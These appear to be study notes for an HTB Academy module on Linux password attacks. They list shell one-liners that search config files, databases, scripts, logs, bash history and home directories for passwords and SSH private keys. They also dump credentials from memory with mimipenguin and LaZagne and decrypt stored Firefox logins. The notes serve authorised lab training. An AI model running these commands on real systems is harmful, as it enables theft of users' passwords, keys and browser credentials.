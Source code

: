 ## HTB-ACADEMY (Passsword attacks / Linux)
## Ivan Medina
---

### Credential Hunting in Linux

##### **Files**

##### *Configuration Files*

```for l in $(echo ".conf .config .cnf");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "lib\|fonts\|share\|core" ;done```

##### *Credentials in Configuration Files*

```for i in $(find / -name *.cnf 2>/dev/null | grep -v "doc\|lib");do echo -e "\nFile: " $i; grep "user\|password\|pass" $i 2>/dev/null | grep -v "\#";done```

##### *Databases*

```for l in $(echo ".sql .db .*db .db*");do echo -e "\nDB File extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share\|man";done```

##### *Notes*

```find /home/* -type f -name "*.txt" -o ! -name "*.*"```

##### *Scripts*

```for l in $(echo ".py .pyc .pl .go .jar .c .sh");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share";done```

##### *Cronjobs*

```cat /etc/crontab```
```ls -la /etc/cron.*/```

##### *SSH Keys*

**SSH Private Keys**

```grep -rnw "PRIVATE KEY" /home/* 2>/dev/null | grep ":1"```

**SSH Public Keys**

```grep -rnw "ssh-rsa" /home/* 2>/dev/null | grep ":1"```

##### *History*

**Bash History**

```tail -n5 /home/*/.bash*```

**Logs**

```for i in $(ls /var/log/* 2>/dev/null);do GREP=$(grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null); if [[ $GREP ]];then echo -e "\n#### Log file: " $i; grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null;fi;done```

##### **Memory Cache**

##### *Memory - Mimipenguin*

```sudo python3 mimipenguin.py```

##### *Memory - LaZagne*

```sudo python2.7 laZagne.py all```

##### **Browsers**

##### *Firefox Stored Credentials*

```ls -l .mozilla/firefox/ | grep default```

```cat .mozilla/firefox/1bplpd86.default-release/logins.json | jq .```

##### *Decrypting Firefox Credentials*

```python3.9 firefox_decrypt.py```

##### *Browsers - LaZagne*

```python3 laZagne.py browsers```

### Passwd, Shadow & Opasswd 
